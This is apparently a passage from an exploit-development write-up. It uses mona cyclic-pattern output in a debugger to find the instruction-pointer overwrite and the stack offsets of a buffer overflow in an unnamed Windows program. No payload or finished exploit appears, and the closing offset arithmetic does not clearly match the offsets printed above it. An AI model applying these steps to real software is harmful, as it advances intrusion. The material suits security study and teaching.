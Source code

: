  * Trying to execute memory at `33694232`. 
 _Looks alphanumeric, part of the pattern?_

```
0BADF00D   [+] Command used:
0BADF00D   !mona pattern_offset 33694232
0BADF00D   Looking for 2Bi3 in pattern of 500000 bytes
0BADF00D    - Pattern 2Bi3 (0x33694232) found in cyclic pattern at position 1028
```

 * Where exactly in the stack is this?
```
0BADF00D   [+] Command used:
0BADF00D   !mona find -s 2Bi3
...
0BADF00D   [+] Results :
0019FE58     0x0019fe58 : 2Bi3 | startnull {PAGE_READWRITE} [Stack] <-- !!! STACK !!!
02614374     0x02614374 : 2Bi3 | ascii {PAGE_READWRITE}
0BADF00D       Found a total of 2 pointers
```

 * Perfect stack...
```
...
0019FA50   00000D0A  ....
0019FA54   41306141  Aa0A <-- !!! PATTERN START !!!
0019FA58   61413161  a1Aa
...
0019FE54   69423169  i1Bi
0019FE58   33694232  2Bi3 <-- !!! EXECUTED ADDRESS !!!
0019FE5C   42346942  Bi4B
...
0019FFF8   77423177  w1Bw 
0019FFFC   00774232  2Bw. <-- !!! PATTERN END !!!
001A0000                  <-- !!! STACK END !!!
```

 * And the other stack offsets are `0` and `1447` 
```
0BADF00D   [+] Command used:
0BADF00D   !mona pattern_offset Aa0A
0BADF00D   Looking for Aa0A in pattern of 500000 bytes
0BADF00D    - Pattern Aa0A found in cyclic pattern at position 0
...
0BADF00D   [+] Command used:
0BADF00D   !mona pattern_offset w2Bw
0BADF00D   Looking for w2Bw in pattern of 500000 bytes
0BADF00D    - Pattern w2Bw found in cyclic pattern at position 1447
```

 * `1147 = 1148 - 1`
   Actually
   `1147 = 1152 - sizeOf_dword - sizeOf_char = 1152 - 4 - 1`

### .. Conclusion
